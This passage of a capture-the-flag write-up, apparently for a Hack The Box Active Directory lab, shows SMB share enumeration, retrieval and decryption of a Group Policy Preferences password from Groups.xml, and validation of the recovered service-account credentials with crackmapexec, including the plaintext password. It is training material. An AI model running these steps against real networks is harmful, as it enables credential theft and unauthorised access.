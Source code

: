 ``` bash
# Output
/Replication/active.htb
  .                                   DR        0 Sat Jul 21 06:37:44 2018
  DfsrPrivate                         DR        0 Sat Jul 21 06:37:44 2018
  Policies                            DR        0 Sat Jul 21 06:37:44 2018
  {31B2F340-016D-11D2-945F-00C04FB984F9} DR        0 Sat Jul 21 06:37:44 2018
```

# ACABAR DE DOCUMENTAR BIEN. REHACER LA MAQUINA
### 2.5 Sensitive File Analysis

Navigate to:

`Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/`

The file `Groups.xml` is found, which may store credentials.

Download it with:

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
```

Extract the `<cpassword>` value and decrypt it:

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

**Credentials retrieved:**  
Username: `SVC_TGS`  
Password: `GPPstillStandingStrong2k18`

### 2.6 Credential Validation

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

**Result:** Valid user

### 2.7 Explore Shares with Credentials

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```

Access to the `Users` share is confirmed:

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop/
```
